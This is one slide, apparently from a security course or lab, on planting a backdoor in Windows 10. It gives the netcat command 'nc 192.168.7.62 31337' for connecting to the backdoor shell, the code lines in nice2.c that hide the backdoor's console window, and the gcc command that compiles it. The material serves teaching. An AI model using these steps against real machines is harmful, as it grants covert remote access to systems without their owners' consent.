

# Planting Backdoor (Cont’d)
TA restarts Windows 10
Anybody can run this command to get into the backdoor
nc 192.168.7.62 31337
The backdoor window can be hidden
Uncomment these two lines in nice2.c
//	HWND hWnd = GetConsoleWindow();
//	ShowWindow(hWnd, SW_HIDE);
gcc.exe nice2.c -o nice2.exe -l ws2_32
9